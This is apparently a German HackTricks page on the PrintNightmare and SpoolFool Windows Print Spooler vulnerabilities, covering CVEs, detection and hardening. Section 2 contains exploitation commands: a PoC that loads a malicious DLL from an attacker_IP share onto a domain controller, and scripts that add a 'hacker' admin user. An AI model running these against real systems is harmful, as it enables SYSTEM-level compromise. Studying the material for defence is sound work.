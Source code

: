 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare ist der Sammelbegriff für eine Familie von Schwachstellen im Windows **Print Spooler**-Dienst, die **willkürliche Codeausführung als SYSTEM** ermöglichen und, wenn der Spooler über RPC erreichbar ist, **remote code execution (RCE) auf Domänencontrollern und Dateiservern** erlauben. Die am häufigsten ausgenutzten CVEs sind **CVE-2021-1675** (zunächst als LPE klassifiziert) und **CVE-2021-34527** (vollständige RCE). Nachfolgende Probleme wie **CVE-2021-34481 (“Point & Print”)** und **CVE-2022-21999 (“SpoolFool”)** beweisen, dass die Angriffsfläche noch lange nicht geschlossen ist.

---

## 1. Verwundbare Komponenten & CVEs

| Jahr | CVE | Kurzname | Primitive | Anmerkungen |
|------|-----|----------|-----------|-------------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Im Juni 2021 CU gepatcht, aber von CVE-2021-34527 umgangen|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx ermöglicht authentifizierten Benutzern das Laden einer Treiber-DLL von einem Remote-Share|
|2021|CVE-2021-34481|“Point & Print”|LPE|Installation von nicht signierten Treibern durch nicht-Admin-Benutzer|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Willkürliche Verzeichniscreation → DLL-Platzierung – funktioniert nach den Patches von 2021|

Alle missbrauchen eine der **MS-RPRN / MS-PAR RPC-Methoden** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) oder Vertrauensbeziehungen innerhalb von **Point & Print**.

## 2. Ausnutzungstechniken

### 2.1 Kompromittierung des Remote-Domänencontrollers (CVE-2021-34527)

Ein authentifizierter, aber **nicht privilegierter** Domänenbenutzer kann willkürliche DLLs als **NT AUTHORITY\SYSTEM** auf einem Remote-Spooler (häufig der DC) ausführen durch:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
Beliebte PoCs sind **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) und Benjamin Delpys `misc::printnightmare / lsa::addsid` Module in **mimikatz**.

### 2.2 Lokale Privilegieneskalation (alle unterstützten Windows, 2021-2024)

Die gleiche API kann **lokal** aufgerufen werden, um einen Treiber von `C:\Windows\System32\spool\drivers\x64\3\` zu laden und SYSTEM-Rechte zu erlangen:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – Umgehung der 2021er Fixes

Die 2021er Patches von Microsoft blockierten das Laden von Remote-Treibern, aber **härteten die Verzeichnisberechtigungen nicht**. SpoolFool missbraucht den `SpoolDirectory`-Parameter, um ein beliebiges Verzeichnis unter `C:\Windows\System32\spool\drivers\` zu erstellen, platziert eine Payload-DLL und zwingt den Spooler, sie zu laden:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> Der Exploit funktioniert auf vollständig gepatchten Windows 7 → Windows 11 und Server 2012R2 → 2022 vor den Updates von Februar 2022

---

## 3. Erkennung & Jagd

* **Ereignisprotokolle** – aktivieren Sie die *Microsoft-Windows-PrintService/Operational* und *Admin* Kanäle und achten Sie auf **Ereignis-ID 808** „Der Druckspooler konnte ein Plug-in-Modul nicht laden“ oder auf **RpcAddPrinterDriverEx** Nachrichten.
* **Sysmon** – `Ereignis-ID 7` (Bild geladen) oder `11/23` (Datei schreiben/löschen) innerhalb von `C:\Windows\System32\spool\drivers\*`, wenn der übergeordnete Prozess **spoolsv.exe** ist.
* **Prozessverlauf** – Warnungen, wann immer **spoolsv.exe** `cmd.exe`, `rundll32.exe`, PowerShell oder eine nicht signierte Binärdatei startet.

## 4. Minderung & Härtung

1. **Patchen!** – Wenden Sie das neueste kumulative Update auf jedem Windows-Host an, der den Druckspooler-Dienst installiert hat.
2. **Deaktivieren Sie den Spooler, wo er nicht benötigt wird**, insbesondere auf Domänencontrollern:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **Blockieren Sie Remoteverbindungen**, während lokale Druckaufträge weiterhin erlaubt sind – Gruppenrichtlinie: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Einschränkung von Point & Print**, sodass nur Administratoren Treiber hinzufügen können, indem Sie den Registrierungswert festlegen:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Detaillierte Anleitung in Microsoft KB5005652

---

## 5. Verwandte Forschung / Tools

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) Module
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* SpoolFool Exploit & Bericht
* 0patch Mikropatches für SpoolFool und andere Spooler-Bugs

---

**Weitere Lektüre (extern):** Überprüfen Sie den Blogbeitrag von 2024 – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## Referenzen

* Microsoft – *KB5005652: Verwalten des neuen Standardverhaltens bei der Installation von Point & Print-Treibern*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}
